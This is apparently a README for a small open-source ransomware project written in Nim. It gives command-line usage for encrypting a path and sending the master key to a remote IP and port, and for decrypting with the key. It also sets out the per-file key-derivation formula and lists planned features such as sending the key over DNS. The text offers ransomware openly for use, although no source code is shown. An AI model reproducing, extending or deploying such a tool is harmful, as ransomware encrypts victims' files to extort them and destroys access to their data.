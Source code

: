# ransom
Basic Ransomware in Nim

# usage
```
ransom e [path] [ip] [port]
ransom d [path] [key]
```
- **the key will be sent in plain text to the server**

# how
For each file, the ransom will generate a new key using the master key generated.  
`KDF(masterKey, filename, filesize) = AES(masterkey, SHA(filename & $(filesize))`

# TODO
- [ ] send the key to the server via DNS
- [ ] encrypt the key before sending to the server
- [ ] add the filename + size in the file just in case
